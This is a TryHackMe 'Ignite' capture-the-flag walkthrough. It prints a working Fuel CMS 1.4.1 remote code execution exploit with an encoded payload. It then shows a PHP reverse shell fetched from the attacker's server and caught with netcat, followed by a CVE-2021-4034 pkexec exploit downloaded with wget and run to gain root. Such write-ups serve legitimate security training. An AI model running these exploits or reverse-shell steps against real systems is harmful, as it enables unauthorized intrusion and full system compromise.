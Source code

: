 ## Ignite
https://tryhackme.com/room/ignite

### Enum
```
nmap -sC -sV -T4 10.10.120.220 -vv

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-title: Welcome to FUEL CMS
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

![image](https://user-images.githubusercontent.com/6504854/179013810-96873376-b3e6-48fb-b648-b49ed2e56201.png)

```
searchsploit FUEL CMS

--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                     | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                     | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                     | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)    | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)           | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticate | php/webapps/48778.txt
Fuel CMS 1.5.0 - Cross-Site Request Forgery (CSRF)             | php/webapps/50884.txt
--------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
```
searchsploit -x 47138.py

Exploit: fuel CMS 1.4.1 - Remote Code Execution (1)
      URL: https://www.exploit-db.com/exploits/47138
     Path: /usr/share/exploitdb/exploits/linux/webapps/47138.py
File Type: Python script, ASCII text executable
```
```
cp /usr/share/exploitdb/exploits/linux/webapps/47138.py 47138.py
vi 47138.py
```
```
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

#url = "http://127.0.0.1:8881"
url = "http://10.10.120.220:80"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print (r.text[0:dup])
```

![image](https://user-images.githubusercontent.com/6504854/179014084-39303845-742a-4bf6-988c-aef880aa10d4.png)

I runned Burp Proxy 8080..
python2 47138.py

![image](https://user-images.githubusercontent.com/6504854/179014686-2220414b-d0cb-455d-8174-2608b10c680d.png)

🏴OK. I injected RCE.

```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.128.199 - - [14/Jul/2022 23:29:13] "GET /1.php HTTP/1.1" 200 -
10.10.128.199 - - [14/Jul/2022 23:29:15] "GET /1.php HTTP/1.1" 200 -
```

![image](https://user-images.githubusercontent.com/6504854/179015523-ce9ca787-4631-4364-9093-35af65b0d49b.png)

![image](https://user-images.githubusercontent.com/6504854/179015785-05d69009-0e23-450b-a8c2-c304a0ac7932.png)

1.php is Revers-Shell(@Penetest Monkey 🐵).

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

なんかいっぱいできるがヨシ 🐱ﾖｼ

### Flag
```
nc　-lnvp 4444
curl http://10.10.120.220/1.php
```

```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.4.63.222] from (UNKNOWN) [10.10.128.199] 57900
Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:29:41 up 11 min,  0 users,  load average: 2.03, 0.89, 0.53
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty;pty.spawn('/bin/bash')";
www-data@ubuntu:/$ sudo -l
[sudo] password for www-data:
```
😿


```
www-data@ubuntu:/$ ls -la /usr/bin/pkexec
ls -la /usr/bin/pkexec
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
```
😼 -rwsr-xr-x

Polkit.tar is CVE-2021-4034 exploit and made it tarball.

https://github.com/berdav/CVE-2021-4034

```
www-data@ubuntu:$ cd /tmp 
www-data@ubuntu:/tmp$ wget http://10.4.63.222/polkit.tar
--2022-07-14 07:36:47--  http://10.4.63.222/polkit.tar
Connecting to 10.4.63.222:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 235520 (230K) [application/x-tar]
Saving to: 'polkit.tar'

polkit.tar          100%[===================>] 230.00K   114KB/s    in 2.0s

2022-07-14 07:36:50 (114 KB/s) - 'polkit.tar' saved [235520/235520]

www-data@ubuntu:/tmp$ tar -xvf polkit.tar
www-data@ubuntu:/tmp$ cd CVE-2021-4034
www-data@ubuntu:/tmp/CVE-2021-4034$ ./cve-2021-4034
./cve-2021-4034
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

😸Thank you for your time. Enjoy!


